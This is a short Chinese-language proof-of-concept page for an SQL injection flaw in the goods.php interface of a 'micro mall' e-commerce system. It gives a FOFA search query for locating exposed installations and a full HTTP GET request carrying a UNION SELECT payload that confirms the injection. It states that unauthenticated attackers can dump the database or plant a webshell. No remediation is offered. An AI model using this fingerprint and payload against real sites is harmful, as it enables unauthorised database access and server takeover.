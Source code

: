 # 微商城系统goods.php存在SQL注入漏洞

微商城系统 goods.php 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```yaml
body="/Mao_Public/js/jquery-2.1.1.min.js"
```

## poc

```java
GET /goods.php?id='+UNION+ALL+SELECT+NULL,NULL,NULL,CONCAT(IFNULL(CAST(MD5(1)+AS+NCHAR),0x20)),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.2) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/41.0.887.0 Safari/532.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
```

![img](https://i-blog.csdnimg.cn/direct/2493a6cdfcc046d6b686dae6f3615fee.png)
